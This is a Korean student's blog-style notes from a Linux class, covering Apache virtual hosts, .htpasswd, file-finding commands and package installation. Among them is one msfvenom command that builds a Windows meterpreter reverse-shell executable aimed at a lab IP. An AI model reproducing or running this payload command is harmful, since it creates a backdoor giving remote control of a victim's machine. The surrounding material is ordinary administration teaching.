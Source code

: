 ```yaml
---
layout: post
title:  "2일차 Linux 수업정리"
date:   2019-03-23 
categories: Linux
---
```


---
## Virtual host: 하나의 도메인으로 여러 웹 사이트를 운영하는 기법
---
필요조건 - 호스트가 하나거나 도메인이 하나인 경우에 여러 웹 사이트를 운영할 수 있다.  
(IP-based, Name-based, Port-based 기법 사용)  
  
  
  
---
### IP-based 실습
---
<VirtualHost 192.168.100.200:80>  
 ServerAdmin admin@localhost  
 DocumentRoot /var/www/xyz  
 DirectoryIndex index.html  
<Directory /var/www/xyz>  
 Order allow,deny  
 Allow from all  
</Directory>  
</VirtualHost>  
  
  
  
---
### Round Robin, Load Balancing, Fault Tolerance
---
http://192.168.100.129 -> kahn.edu homepage  
                   128 ->        "  
                   127 ->        "  
  
---
  
  
	* pid 관리 중요
	* 랜섬웨어 관련 change root(fake!)
	* sudo는 일시적으로 관리자로 변경
	* su - root 에서 - 붙여야 본인 디렉토리로 이동함
	* selinux는 미 국방부에서 만든것, 고급보안임 (set uid.. sticky bit..)
	* 설정을 다 했는데 인터넷 안되면 nslookup 명령어 
	* echo는 저장된 설정이 있으면 보여줘라 or 파일 만드는 명령어 
  
  
---
## .htpasswd .htaccess
---
> htpasswd -c /etc/httpd/conf/.htpasswd centos  
> htpasswd /etc/httpd/conf/.htpasswd ubuntu  
  
  
startx -> 그래픽으로 보여주는 명령어  
msfvenom -p windows/meterpreter/reverse tcp lhost=192.168.100.131 lport=1234 -f exe > /root/Desktop/shell.exe
  
  
  
---
### 실시간으로 네트워크를 감시하는 명령어 
---
tail -f option! 
tail -f /var/log/syslog  
  
백트랙의 해킹도구가 되는 근거는 바로 promiscuous mode  
SNMP 네트워크 모니터링  
  
*영원히 접근 못하게 막는 기법*  
jail2ban  
fail2ban  
  
  
  
---
### 빈파일 만드는 명령어 
---
touch  
echo >  
ex) touch xyz  
ex) echo > xyzz  
  
  
  
---
### 파일찾는 명령어
---
* find / -type f -name passwd (passwd파일을 찾고자 할때)  
* locate passwd  
* which passwd (명령어를 찾을때는 which가 좋다)  
* whereis passwd (관리자들이 많이 쓴다)  
* find /home -type f -size 0 -exec ls -l {} \; (find 시작위치 type 타입 size 크기 exec 명령어)
  
  
  
---
### dpkg -i
---
* Debian 계열의 Debian, Ubuntu는 파일이 *.deb이다.  
* dpkg -i *.deb로 설치한다.(별도로 이 *.deb파일을 다운받았을때)  
* apt-get install abc하면 abc파일을 설치한다.(바로 웹에서 다운받아서 설치할 때)  
* dpkg -r abc로 삭제한다.  
* RedHat 계의의 Fedora, CentOS는 파일이 *.rpm,*.tar.gz, *.tar.bz2 이다.  
* tar xvfz *.tar.gz tar xvfj *.tar.bz2해서 설치한다.  
  
  
  